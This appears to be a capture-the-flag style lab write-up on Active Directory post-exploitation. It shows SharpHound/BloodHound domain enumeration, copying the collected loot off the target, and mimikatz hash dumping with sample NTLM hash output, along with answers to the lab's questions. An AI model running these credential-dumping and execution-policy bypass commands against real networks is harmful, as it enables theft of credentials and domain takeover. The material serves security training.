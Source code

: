 - Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

- ``sudo neo4j console`` - default credentials = neo4j:neo4j

##   Getting Loot w/ Sharphound

1. ``powershell -ep bypass`` allows us to run scripts
2. ``. .\SharpHound.ps1`` - start sharphound
3. ``Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`` - loot everything
4. ``scp Administrator@10.10.70.220:/users/Administrator/Downloads/20220621140925_loot.zip ~/thm/postexploit`` - scp over to kali
5. run bloodhound on kali and import (drag and drop if import doesnt work)

##   Answer the questions below

**What service is also a domain admin**

- sqlservice

**What two users are Kerberoastable?**

- sqlservice krbtgt

* * * 

## Task 4 - Dumping hashes w/ mimikatz 

1. ``mimikatz.exe`` run mimikatz
2. check privilege need 20 OK ``privilege::debug``
3. ``lsadump::lsa /patch`` hash dump

```shell
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f4 (500)                                         
User : Administrator                                          
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

RID  : 00000452 (1106) 
User : Machine2
LM   :
```